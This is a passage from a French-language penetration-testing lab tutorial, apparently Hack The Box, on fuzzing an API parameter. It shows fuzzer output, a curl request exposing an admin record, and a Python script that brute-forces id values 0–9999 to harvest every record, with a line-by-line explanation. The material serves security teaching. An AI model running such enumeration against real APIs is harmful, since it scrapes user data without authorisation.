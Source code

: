 ```
:: Progress: [1947/2588] :: Job [1/1] :: 1625 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2170/2588] :: Job [1/1] :: 1777 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2356/2588] :: Job [1/1] :: 1435 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2567/2588] :: Job [1/1] :: 2103 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2588/2588] :: Job [1/1] :: 2120 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2588/2588] :: Job [1/1] :: 2120 req/sec :: Duration: [0:00:02] :: Errors: 0 ::

```

Il semble que *id* soit un paramètre valide. Vérifions la réponse lorsque nous spécifions *id* comme paramètre et valeur de test.

```
dsgsec@htb[/htb]$ curl http://<TARGET IP>:3003/?id=1
[{"id":"1","username":"admin","position":"1"}]

```

Trouvez ci-dessous un script Python qui pourrait automatiser la récupération de toutes les informations renvoyées par l'API (enregistrez-le sous `brute_api.py`).

Code : Python

```
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()

```

-   Nous importons deux modules *requests* et *sys* . *requests* nous permet de faire des requêtes HTTP (GET, POST, etc.), et *sys* nous permet d'analyser les arguments système.
-   Nous définissons une fonction appelée *brute* , puis nous définissons une variable appelée *value* qui a une plage de *10000* . *essayez* et *exceptez* l'aide dans la gestion des exceptions.
-   *url = sys.argv[1]* reçoit le premier argument.
-   *r = requests.get(url + '/?id='+str(val))* crée un objet de réponse appelé *r* qui nous permettra d'obtenir la réponse de notre requête GET. Nous ajoutons simplement */?id=* à notre requête, puis *val* suit, qui aura une valeur dans la plage spécifiée.
-   *if "position" in r.text :* recherche la chaîne *de position* dans la réponse. Si nous entrons un ID valide, il renverra la position et d'autres informations. Si nous ne le faisons pas, il retournera *[]* .
